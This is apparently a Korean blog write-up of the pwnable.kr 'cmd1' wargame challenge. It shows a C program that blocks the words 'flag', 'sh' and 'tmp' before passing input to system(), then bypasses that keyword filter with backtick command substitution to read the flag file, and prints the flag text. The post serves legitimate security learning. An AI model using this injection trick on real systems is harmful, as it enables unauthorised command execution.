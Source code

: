 ```yaml
---
layout: post
title: Pwnable.kr cmd1
categories: [Wargame]
comments: true
---
```


{% highlight c %}
cmd1@ubuntu:~$ cat cmd1.c 
#include <stdio.h>
#include <string.h>
 
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
{% endhighlight %}

flag, sh, tmp라는 문자열을 필터링하는 문제이다. 하지만 이 문제는 system함수를 사용하므로 쉘의 기능을 이용하는걸 생각해 보아야 한다.

<code><b>`command`</b></code> 를 할 경우 command를 실행한 후 그 프로그램의 `stdout`으로 나오는 내용을 쉘에서 실행하게 된다.

간단한 예제로 보게되면 다음과 같은 결과를 낼 수 있다.

{% highlight bash %}
cmd1@ubuntu:~$ `/bin/cat`
ls
^D
cmd1  cmd1.c  flag
{% endhighlight %}

**``**으로 감싼 cat을 실행할 때, cat은 입력을 그대로 출력한다.

그로인해 `ls`를 입력했는데, 이 내용이 `cmd1@ubuntu:~$ ls` 와 같이 수행되게 된다. 이를 이용하여 문제를 해결해 보도록 하겠다.

{% highlight bash %}
cmd1@ubuntu:~$ ./cmd1 "\`/bin/cat\`"
/bin/cat /home/cmd1/flag
mommy now I get what PATH environment is for :)
{% endhighlight %}